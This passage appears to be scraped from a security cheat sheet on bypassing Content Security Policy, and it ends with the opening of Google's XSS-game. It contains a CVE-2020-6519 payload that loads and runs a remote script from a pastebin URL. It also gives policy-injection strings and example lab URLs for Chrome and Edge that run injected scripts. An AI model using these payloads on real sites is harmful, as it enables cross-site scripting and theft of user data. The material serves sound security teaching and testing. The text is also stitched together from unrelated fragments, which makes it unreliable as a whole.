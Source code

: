  
run();
</script>
```

CVE-2020-6519
1
document.querySelector('DIV').innerHTML="<iframe src='javascript:var s = document.createElement(\"script\");s.src = \"https://pastebin.com/raw/dw5cWGK6\";document.body.appendChild(s);'></iframe>";
Policy Injection
Research: https://portswigger.net/research/bypassing-csp-with-policy-injection****

Chrome
If a parameter sent by you is being pasted inside the declaration of the policy, then you could alter the policy in some way that makes it useless. You could allow script ‘unsafe-inline’ with any of these bypasses:

1
2
script-src-elem *; script-src-attr *
script-src-elem 'unsafe-inline'; script-src-attr 'unsafe-inline'
Because this directive will overwrite existing script-src directives.
You can find an example here: http://portswigger-labs.net/edge_csp_injection_xndhfye721/?x=%3Bscript-src-elem+*&y=%3Cscript+src=%22http://subdomain1.portswigger-labs.net/xss/xss.js%22%3E%3C/script%3E

Edge
In Edge is much simpler. If you can add in the CSP just this: ;_ Edge would drop the entire policy.
Example: http://portswigger-labs.net/edge_csp_injection_xndhfye721/?x=;_&y=%3Cscript%3Ealert(1)%3C/script%3E

Checking CSP Policies Online
https://csp-evaluator.withgoogle.com/
https://cspvalidator.org/
Automatically creating CSP
https://csper.io/docs/generating-content-security-policy

References
https://hackdefense.com/blog/csp-the-how-and-why-of-a-content-security-policy/

http://lcamtuf.coredump.cx/postxss/

https://medium.com/bugbountywriteup/content-security-policy-csp-bypass-techniques-e3fa475bfe5d

https://0xn3va.gitbook.io/cheat-sheets/web-application/content-security-policy\#allowed-data-scheme

Ref: https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass

Share this:



##
#
https://gist.github.com/adriaandens/722383ba4c717baf8007
#
##

# XSS-game by Google

Welcome, recruit!
Cross-site scripting (XSS) bugs are one of the most common and dangerous types of vulnerabilities in Web applications. These nasty buggers can allow your enemies to steal or modify user data in your apps and you must learn to dispatch them, pronto!

```